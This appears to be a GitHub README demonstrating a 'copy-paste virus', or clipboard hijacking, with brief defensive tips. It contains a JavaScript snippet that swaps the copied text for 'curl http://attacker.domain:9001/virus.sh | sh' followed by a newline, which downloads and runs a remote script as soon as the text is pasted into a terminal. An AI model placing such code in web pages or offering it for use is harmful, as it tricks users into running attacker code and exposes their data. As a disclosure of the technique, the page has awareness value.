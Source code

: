 # copy-past-Virus
Basically when the text is pasted into a terminal or CMD/PowerShell, the script is executed automatically (because I use \n to create new line) and can cause a variety of things, such as stealing data or installing malware. This is designed to infect a computer by hiding within copied and pasted text or code. As soon as the copied content is pasted into a new document, the malware infects the system, giving hackers access to sensitive information. copy-paste malware is silent operation. They can easily slip under the radar of many antivirus software, making them difficult to detect. Once they have infiltrated a system, they can be used to steal sensitive data such as passwords, financial information, and confidential documents. This is a small JavaScript code to show potential of this attack.

This attack works also on Windows 11 and Ubuntu.


# example of attacker script: 
 ```
<script>
document.getElementById('copy').addEventListener('copy', function(e) { e.clipboardData.setData('text/plain', 'curl http://attacker.domain:9001/virus.sh | sh\n'); e.preventDefault(); });
 </script>
```

 **this attack also works on ubuntu users. A command like sudo apt-get update && apt-get upgrade should normally update the repositories and upgrade the packages on a ubuntu system. The attacker will add \n or \r\n for new line. When this happens in a terminal it will automatically execute the code.**

**Another way that malicious code can be introduced into systems through copy and paste is through the use of malicious links. These links can be embedded in text that is copied from a website. When the text/link is pasted into a browser, the link is clicked and the user is taken to a malicious website. This website can then install malware on the user's computer or steal the user's personal information.**

 For now, this is short simple concept and show of kinda smart attack vector but in the future, when I have time, I will learn more about this method and update this repository with more advanced techniques.


# How to avoid this​
Only copy and paste content from trusted sources.
Use a firewall to block suspicious incoming connections.
configure your terminal to avoid new line “\n” or \r\n to stop this attack.


The creator of this repository does not bear any legal consequences if any person uses it inappropriately. The purpose of this is only to show a clever way for bad actors to infect an unaware user, so that the potential victim will know to be careful and how to defend themselves against it.
